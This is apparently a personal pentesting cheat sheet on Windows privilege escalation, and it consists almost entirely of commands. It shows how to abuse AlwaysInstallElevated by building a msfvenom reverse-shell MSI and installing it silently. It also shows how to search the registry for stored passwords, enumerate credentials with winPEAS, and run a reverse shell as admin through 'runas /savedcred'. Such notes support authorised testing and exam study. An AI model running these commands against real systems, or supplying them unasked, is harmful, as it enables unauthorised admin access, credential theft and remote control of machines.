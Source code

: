 winpeas to scan priviledges and AlwaysInstallElevated
```
> winpeas.exe quiet systeminfo
```
verify manually
```
> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
create shell and install shell (start listener before install)
```
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f msi -o reverse.msi

> msiexec /quiet /qn /i reverse.msi
```


# passwords
#### registry
some programs store windows in registry, windows itself will sometimes do this
##### worst case
commands to search registry for string "password"

local machine:
```
> reg query HKLM /f password /t REG_SZ /s
```

current user:
```
> reg query HKCU /f password /t REG_SZ /s
```
##### best case
winpeas finds useful passwords when doing filesinfo/userinfo
```
> .\winPeas.exe quiet filesinfo userinfo
```

if passwords are found can confirm with reg query
autologin example:
```
> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
    DefaultUsername    REG_SZ    admin
    DefaultPassword    REG_SZ    password123
```

#### saved creds
windows has 'runas' which allows users to run commands with privileges of other users. usually requires knowledge of the other user's password, but windows does allow users to save their credentials to the system and these saved creds can be used to bypass

run winpeas to enumerate possible saved credentials
```
> .\winpeas.exe quiet cmd windowscreds
```
cmdkey command to list all saved creds
```
> cmdkey /list
```
if saved cred found, use runas to run reverse shell as admin
```
> runas /savedcred /user:admin "C:\Path\To\Reverse\Shell.exe"
```
